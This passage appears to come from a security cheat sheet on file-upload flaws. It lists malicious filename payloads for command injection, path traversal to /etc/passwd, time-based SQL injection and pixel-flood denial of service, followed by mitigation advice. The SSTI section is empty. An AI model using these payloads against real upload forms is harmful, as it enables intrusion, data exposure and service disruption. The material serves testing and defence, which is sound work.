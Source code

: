 ### Command Injection:

```markdown
1. Set filename ; sleep 10;
```

### LFI:

```markdown
1. Set filename ../../etc/passwd/logo.png
2. Set filename ../../../logo.png as it might changed the website logo.
```

### SQL Injection:

```markdown
1. Set filename 'sleep(10).jpg
2. Set filename sleep(10)-- -.jpg
```

### DOS:

```markdown
1. Pixel flood attack using image, upload this image and Boom!!
   https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/file-upload/malicious-images/lottapixel.jpg
   https://hackerone.com/reports/390#:~:text=By%20loading%20the%20'whole%20image,Photo%20Viewer%20on%20my%20computer.

2. DoS with a large values name: 1234...99.png
```

**SSTI:**

```python

```

# Mitigation

File upload functionality is not straightforward to implement securely. Some recommendations to consider in the design of this functionality include:

-   Use a server-generated filename if storing uploaded files on disk.
-   Inspect the content of uploaded files, and enforce a whitelist of accepted, non-executable content types. Additionally, enforce a blacklist of common executable formats, to hinder hybrid file attacks.
-   Enforce a whitelist of accepted, non-executable file extensions.
-   If uploaded files are downloaded by users, supply an accurate non-generic Content-Type header, the X-Content-Type-Options: nosniff header, and also a Content-Disposition header that specifies that browsers should handle the file as an attachment.
-   Enforce a size limit on uploaded files (for defense-in-depth, this can be implemented both within application code and in the web server’s configuration).
-   Reject attempts to upload archive formats such as ZIP.
